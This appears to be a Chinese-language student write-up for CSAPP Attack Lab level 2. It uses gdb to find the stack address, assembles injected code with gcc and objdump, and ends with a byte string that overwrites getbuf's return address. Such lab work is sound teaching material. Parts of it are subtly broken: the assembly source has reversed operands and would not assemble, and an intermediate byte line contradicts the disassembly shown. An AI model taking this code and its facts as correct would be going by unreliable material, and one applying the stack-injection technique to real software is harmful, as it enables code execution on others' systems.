 使用`gdb`下断点

```asm
(gdb) gdb ctarget
(gdb) break *0x4017af
	Breakpoint 1 at 0x4017af: file buf.c, line 14.
(gdb) run -q
Starting program: /home/aaron/CSAPP/attacklab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14

(gdb) print /x $rsp
$1 = 0x5561dc78

```

确定注入机器代码开始位置是`0x5561dc78`

编写汇编代码`level2.s`:

```asm
mov %edi $0x59b997fa
push $0x4017ec
ret
```

使用`-c`选项表示只编译源文件，而不进行链接

```bash
gcc -c -o level2.o level2.s
```

使用`objdump`反汇编获取机器码

```bash
objdump -d level2.o >level2.asm 
```

```asm

level2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq   

```

因此，输入的代码从低地址到高地址数据是

```
8b 3c 25 fa 97 b9 59 ff 34 25 ec 17 40 00 c3
```

此外还要覆盖`getbuf() ret addr`

最终

```
bf fa 97 b9 59 68 ec 17 40 00 
c3 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
```


